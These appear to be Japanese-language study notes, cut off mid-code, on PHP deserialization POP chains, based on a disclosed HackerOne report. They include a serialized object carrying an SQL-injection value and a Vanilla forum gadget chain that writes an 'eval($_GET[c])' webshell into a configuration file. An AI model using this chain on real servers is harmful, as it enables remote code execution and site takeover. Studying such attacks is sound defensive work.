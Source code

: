 ```php
class Example3{
   protected $obj;

   function __construct()   {
      $this->obj = new SQL_Row_Value;
   }
}

print (serialize(new Example3));

// O:8:"Example3":1:{s:6:" * obj";O:13:"SQL_Row_Value":1:{s:21:"SQL_Row_Value_table";s:10:"users -- -";}}
?>
```
### \_\_destruct (webshell)
https://hackerone.com/reports/407552   

以下が最終的なpopchianのコード。   
デシリアライズするとき、`Gdn_Configuration`のインスタンスが作成されてコンストラクタが実行され、`new Gdn_ConfigurationSource()`によって`Gdn_ConfigurationSource`のインスタンスが作成される。   
`Gdn_ConfigurationSource`のインスタンスが作成されるとコンストラクタが実行され、各種フィールドに値がセットされる。   
```php
class Gdn_ConfigurationSource{
    public function __construct(){
        $this->Type = "file";
        $this->Source = "/var/www/html/conf/constants.php";
        $this->Group = 'a=eval($_GET[c]);//';
        $this->Settings[""] = "";       
        $this->Dirty = true;
        $this->ClassName = "Gdn_ConfigurationSource";
    }
}
class Gdn_Configuration {
    public $sources = [];
    public function __construct(){
        $this->sources['si'] = new Gdn_ConfigurationSource();
    }
}
// serialize(new Gdn_Configuration);
```

`Gdn_Configuration`クラスのデストラクタが呼ばれるのがentrypoint。   
[2]でshutdowm()メソッドが呼ばれて[3]が実行される。    
[3]ではshutdown()メソッドの中でshutdown()メソッドが呼ばれてる。これは多分別のクラスのshutdown()メソッドを探すことになるはず？？ここでは別の`Gdn_ConfigurationSource`クラスにあるshutdown()メソッドが該当する。     
上記のpopchainによって、`$source->shutdown(); // 3`の`$source`に`new Gdn_ConfigurationSource()`がセットされ、`インスタンス->shutdown()`となって`Gdn_ConfigurationSource`の`shutdown()`メソッドを実行できる！(実際に実行されるのはデストラクタが呼ばれるとき)   
```php
class Gdn_Configuration extends Gdn_Pluggable {

    ...

    /**
     *
     */
    public function __destruct() {
        if ($this->autoSave) {                      // 1
            $this->shutdown();                      // 2
        }
    }

    /**
     *
     */
```